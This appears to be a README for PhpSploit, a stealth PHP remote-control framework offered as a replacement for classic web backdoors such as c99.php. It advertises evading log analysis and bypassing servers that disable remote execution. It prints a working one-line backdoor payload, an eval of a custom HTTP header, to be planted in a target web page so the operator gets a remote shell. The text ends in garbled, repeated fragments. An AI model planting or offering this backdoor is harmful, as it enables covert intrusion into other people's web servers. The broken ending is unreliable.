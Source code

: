 # PhpSploit: A stealth PHP remote control framework for experts #

### Overview ###

The PhpSploit framework replaces classic PHP backdoor like "c99.php".

    - Ultra small Backdoor (~ 50 chars)
    - Nearly invisible by log analysis
    - Bypass PHP servers wich disables remote execution.
    - Supports GET and POST, independently from the backdoor.

### Example usage ###
`**phpspoit >** infect`
``
`[*] The following payload must be inserted in the target web page.`
`[*] Then adjust the TARGET setting to it in order to start the remote shell`
``
`==========================================`
`<?php @eval($_SERVER['HTTP_PHPSPL01T']);?>`
`==========================================`

### Advanced Features ###

Very easy to get started, it is also highly configurable, and is designed
to meet all the needs to web security experts.

* Advanced tunnel based payload execution:


    - Uses advanced HTTP Headers filling methods.
    - Provides multi-paradygm payload compression.
    - Tu


The PhpSploit framework takes control over a remote PHP web server.
It replaces classic 

Phpsploit simulates a remote shell access through PHP.

It's first design

